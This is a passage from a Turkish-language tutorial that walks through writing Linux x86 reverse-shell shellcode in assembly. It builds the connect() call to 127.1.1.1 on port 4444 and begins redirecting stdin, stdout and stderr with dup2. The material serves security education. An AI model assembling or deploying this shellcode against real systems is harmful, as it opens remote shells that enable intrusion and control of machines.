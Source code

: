 `connect()` fonksiyonunun argümanlarını inceleyelim. En ilginç argümanlardan biri, `sockaddr` yapısıdır:

```cpp
struct sockaddr_in {
   __kernel_sa_family_t  sin_family;   /* Address family    */
  __be16                 sin_port;     /* Port number       */
  struct in_addr         sin_addr;     /* Internet address  */
};
```

Bu noktada argümanları yerleştirmeniz gerekiyor. Önce `sin_addr`, ardından `sin_port` ve son olarak `sin_family` (unutmayın: ters sıra ile!):

```nasm
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
push 0x0101017f  ; sin_addr = 127.1.1.1 (network byte order)
push word 0x5c11 ; sin_port = 4444
```

![push IP port](./images/14/2021-10-16_13-05.png){width="80%"}       

Bu noktada `ebx`, `socket()` çağrısı sırasında `socket_type`'ı yerleştirdiğiniz için `0x1` değerini içerir. `ebx`'i artırdıktan sonra `ebx`, `sin_family` argümanı için `0x2` değerine sahip olmalıdır:

```nasm
inc  ebx         ; ebx = 0x02
push word bx     ; sin_family = AF_INET
```

Ardından, bu sockaddr yapısına işaret eden yığın işaretçisini (stack pointer) `ecx` kaydına kaydedin:

```nasm
mov  ecx, esp    ; move stack pointer to sockaddr struct
```

Sonra:
```nasm
push 0x10        ; addrlen = 16
push ecx         ; const struct sockaddr *addr
push edx         ; sockfd
mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
inc  ebx         ; sys_connect (0x3)
int  0x80        ; syscall (exec sys_connect)
```

### stdin, stdout ve stderr'i dup2 ile yönlendirme

Bir döngü başlatmak için sayaç ayarlayın ve `ecx`'i sıfırlayın:

```nasm
push 0x2         ; set counter to 2
pop  ecx         ; zero to ecx (reset for newfd loop)
```

`ecx` döngü için hazır. Şimdi, `dup2` sistem çağrısı sırasında ihtiyaç duyduğunuz socket dosya tanıtıcısını `ebx` kaydına kaydedin:

